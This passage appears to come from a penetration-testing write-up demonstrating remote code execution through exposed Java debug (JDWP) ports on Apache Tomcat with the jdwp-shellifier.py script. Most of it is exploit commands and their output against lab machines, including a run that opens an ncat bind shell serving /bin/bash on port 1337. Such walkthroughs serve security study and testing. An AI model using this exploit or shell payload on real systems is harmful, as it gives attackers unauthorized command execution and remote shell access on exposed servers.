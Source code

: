 root@pwnbox:~/apache-tomcat-6.0.39\# ./bin/catalina.sh jpda start

We execute our script without a command to execute, to simply get general system information:

```text
hugsy:~/labs % python2 jdwp-shellifier.py -t 192.168.2.9 
[+] Targeting ‘192.168.2.9:8000’
[+] Reading settings for ‘Java HotSpot(TM) 64-Bit Server VM – 1.6.0_65’
[+] Found Runtime class: id=466[+] Found Runtime.getRuntime(): id=7facdb6a8038
[+] Created break event id=2
[+] Waiting for an event on ‘java.net.ServerSocket.accept’## Here we wait for breakpoint to be triggered by a new connection ##
[+] Received matching event from thread 0x8b0
[+] Found Operating System ‘Mac OS X’
[+] Found User name ‘pentestosx’
[+] Found ClassPath ‘/Users/pentestosx/Desktop/apache-tomcat-6.0.39/bin/bootstrap.jar’
[+] Found User home directory ‘/Users/pentestosx’
[!] Command successfully executed
```

Same command line, but against a Windows system and breaking on a totally different method:

```text
hugsy:~/labs % python2 jdwp-shellifier.py -t 192.168.2.8 –break-on ‘java.lang.String.indexOf’
[+] Targeting ‘192.168.2.8:8000’
[+] Reading settings for ‘Java HotSpot(TM) Client VM – 1.7.0_51’
[+] Found Runtime class: id=593
[+] Found Runtime.getRuntime(): id=17977a9c
[+] Created break event id=2
[+] Waiting for an event on ‘java.lang.String.indexOf’
[+] Received matching event from thread 0x8f5
[+] Found Operating System ‘Windows 7’
[+] Found User name ‘hugsy’
[+] Found ClassPath ‘C:UsershugsyDesktopapache-tomcat-6.0.39binbootstrap.jar’
[+] Found User home directory ‘C:Usershugsy’
[!] Command successfully executed
```

We execute our exploit to spawn a bind shell with the payload “ncat -e /bin/bash -l -p 1337”, against a Linux system:

```text
hugsy:~/labs % python2 jdwp-shellifier.py -t 192.168.2.8 –cmd ‘ncat -l -p 1337 -e /bin/bash’
[+] Targeting ‘192.168.2.8:8000’
[+] Reading settings for ‘OpenJDK Client VM – 1.6.0_27’
[+] Found Runtime class: id=79d
[+] Found Runtime.getRuntime(): id=8a1f5e0
[+] Created break event id=2
[+] Waiting for an event on ‘java.net.ServerSocket.accept’
[+] Received matching event from thread 0x82a[+] Selected payload ‘ncat -l -p 1337 -e /bin/bash’
[+] Command string object created id:82b
[+] Runtime.getRuntime() returned context id:0x82c
[+] found Runtime.exec(): id=8a1f5fc[+] Runtime.exec() successful, retId=82d
[!] Command successfully executed Success, we now have a listening socket!
root@pwnbox:~/apache-tomcat-6.0.39# netstat -ntpl | grep 1337
tcp        0      0 0.0.0.0:1337         0.0.0.0:*               LISTEN      19242/ncat      
tcp6       0      0 :::1337              :::*                    LISTEN      19242/ncat
```

